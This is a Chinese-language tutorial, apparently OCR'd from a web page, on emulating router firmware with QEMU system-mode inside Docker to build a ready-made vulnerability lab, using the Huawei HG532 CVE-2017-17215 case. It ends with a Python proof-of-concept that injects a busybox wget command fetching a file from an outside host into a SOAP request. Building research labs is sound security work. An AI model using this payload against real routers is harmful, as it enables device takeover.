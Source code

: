 # 基于Docker的固件模拟

## 概述

目前的设备模拟都需要用户人工操作，没有一个直接可用的方案，难度大成本高耗时长。而且在各大漏洞靶场中都没有集成，如：Vulfocus 开源靶场，等。本文主要讲述如何在 `Docker` 中搭建 `Qemu` 进行 `system-mode` 模式的固件模拟，实现易于分发开箱即用的硬件模拟环境。要是有需完善地方，请读者留言共同促进改善之。

## 背景

由于工作内容是物联网安全方向，通常需要购买设备进行分析，但是目前多数的设备漏洞分析只需要有固件，然后将相关程序运行即可。目前网络上通常使用 `Qemu` 进行固件模拟，其他的就是 `Qemu` 和其他环境功能 （如：`nvram` ）的包装器如：`firmadyne`、`Firmware Analysis Toolkit`、`ARM-X` 固件仿真框架等。

上述列举的固件模拟工具，都需要用户安装好以后，再传输固件文件系统进行模拟固件服务运行。但是，通常固件模拟总有一些小细节的错误导致失败，而且类似固件模拟成功的文章作者有可能会忽略一些细致点，导致用户找不出问题点，模拟失败。因此一直在想，要是能够将模拟成功的固件环境打包成镜像，用户获取镜像后直接运行镜像就可以获取到固件漏洞点，直接省略了繁杂的固件搭建过程。

要实现这种“开箱即用”，直接想到的便是 `Docker`，它作为可直接打包其中的应用以及依赖包到一个可移植的容器，完全符合这种需求。网上查了查，现有的 `Docker` 中集成 `Qemu` 进行的固件模拟仅仅是利用 `user-mode` 模式（可执行二进制文件仿真，即开启固件中的单一服务）进行模拟应用运行，很多的服务的依赖包需要在`system-mode` 模式（固件全局仿真）下才能运行成功。

## 搭建过程

## 初步设想需解决点

根据通常 Docker 搭建Web等应用漏洞靶场的思路，即在启动 Docker 后直接访问漏洞点就可以像真正环境中一样利用。推理到固件靶场：

`Docker` 中需具备：模拟固件的框架，能够外部访问漏洞点，固件文件系统内部能访问外网（也就是漏洞能实际利用了），这就造成了：网络上已经有了 `Docker`镜像进行 `user-mode` 模式的固件模拟，但是没有 `system-mode` 模式，可能就是因为涉及到 `Qemu` 中的端口转发出来及网络等因素。

* 需要解决：
  * `Qemu` 中模拟漏洞时，如果漏洞是通过端口进行利用的，怎样将端口转发到 `Docker`
  * `Qemu` 能访问外网
  * `Qemu` 中的服务怎么随着 `Docker` 启动而启动，即：像 Web类的靶场，直接 `Docker` 启动就可以将漏洞环境运行起来

## 搭建过程划分及流程框架图

**搭建过程分为如下几步**

* MIPS 框架搭建--实现外网访问--端口映射
* `Qemu` 服务随 `Docker` 启动而启动
* （额外： `Qemu` 同步实时更新 `Docker` 中的文件）

**本文模拟的环境案例**

* `HG532` ，`CVE-2017-17215`，**知识储备**章节有写漏洞信息及利用脚本
* 漏洞产生点于组件服务端口 37215 ，从数据包中获取部分信息来进行代码执行
* HG532 固件文件系统类型是 mips 32位的，且格式为大端 MSB。
* 固件下载地址：[https://ia601506.us.archive.org/22/items/RouterHG532e/router%20HG532e.rar](https://link.zhihu.com/?target=https%3A//ia601506.us.archive.org/22/items/RouterHG532e/router%2520HG532e.rar)
* PoC 内容如下：

```python
import requests 
headers = { 
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669" 
    } 
data = '''
    http://schemas.xm lsoap.org/soap/envelope/
    " s:encodingStyle="
    http://schemas.xm
    lsoap.org/soap/encoding/">;/bin/busybox wget -g 1.1.1.1 -l /tmp/.f;HUAWEIUPNP 
     ''' 
requests.post('http://x.x.x.x:37215/ctrlt/DeviceUpgrade_1', headers=headers, data=data)
```
